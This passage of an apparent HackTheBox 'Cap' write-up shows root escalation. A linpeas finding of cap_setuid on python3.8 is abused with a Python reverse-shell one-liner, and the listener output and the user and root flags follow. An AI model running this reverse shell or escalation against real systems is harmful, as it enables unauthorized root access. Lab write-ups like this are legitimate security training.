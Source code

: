 
And we get the user flag ```bd61cd6e496fb1d5473af93e64e8e22e```.

### Root


By running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we can see the following information about [Linux Capabilities](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work):
```console
...
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
...
```

It means we can run ```os.setuid``` command using ```python3.8```.

If we can run ```setuid``` we can write a python script with ```setuid(0)``` command to run commands as a root user.

First, Let's get python revese shell from [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Now, Let's change from ```python``` to ```python3.8``` and append the command ```os.setuid(0)``` and of course change to our IP:
```python
export RHOST="10.10.14.14";export RPORT=4242;python3.8 -c 'import sys,socket,os,pty;os.setuid(0);s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Listen to port 4242 and run the command:
```console
nathan@cap:/tmp$ export RHOST="10.10.14.19";export RPORT=4242;python3.8 -c 'import sys,socket,os,pty;os.setuid(0);s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And we get a shell as a root:
```console
┌─[evyatar@parrot]─[/hackthebox/Cap]
└──╼ $nc -lvp 4242
listening on [any] 4242 ...
10.10.10.245: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.245] 51702
# whoami
root
# cd /root
cd /root
# cat root.txt
cat root.txt
8f8914ebc0ac62e4e52c0cae3c9047f8
```

root flag ```8f8914ebc0ac62e4e52c0cae3c9047f8```.
